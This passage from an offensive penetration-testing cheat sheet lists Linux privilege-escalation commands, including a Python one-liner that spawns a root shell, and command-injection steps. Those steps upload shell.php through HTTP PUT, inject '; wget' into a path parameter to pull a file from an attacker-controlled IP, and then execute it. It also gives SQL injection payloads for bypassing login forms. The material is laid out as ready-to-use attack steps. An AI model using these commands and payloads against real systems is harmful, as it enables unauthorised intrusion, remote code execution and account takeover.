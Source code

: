 ```

Find binaries that will execute as the group

-   find / -perm -g=s -type f 2>/dev/null

Find sticky-bit binaries

-   find / -perm -1000 -type d 2>/dev/null

If Python is executable as root

-   python2.7 -c "import pty;pty.spawn('/bin/sh');"

[https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

[https://github.com/pentestmonkey/unix-privesc-check](https://github.com/pentestmonkey/unix-privesc-check)

**Windows:**
------------

[https://github.com/pentestmonkey/windows-privesc-check](https://github.com/pentestmonkey/windows-privesc-check)

[http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)

[https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/](https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/)

**Command Injection** 
=====================

### **File Traverse:**

-   website.com/file.php[?path=/]

### **Test HTTP options using curl:**

-   curl -vX OPTIONS [website]

### **Upload file using CURL to website with PUT option available**

-   curl --upload-file shell.php --url http://192.168.218.139/test/shell.php --http1.0

### **Transfer file** (Try temp directory if not writable)(wget -O tells it where to store):

-   ?path=/; wget http://IPADDRESS:8000/FILENAME.EXTENTION;

### **Activate shell file:**

-   ; php -f filelocation.php;

**SQLInjections** 
=================

### Common **Injections for Login Forms:**

-   `admin' --`
-   `admin' #`
-   `admin'/*`
-   `' or 1=1--`
-   `' or 1=1#`
```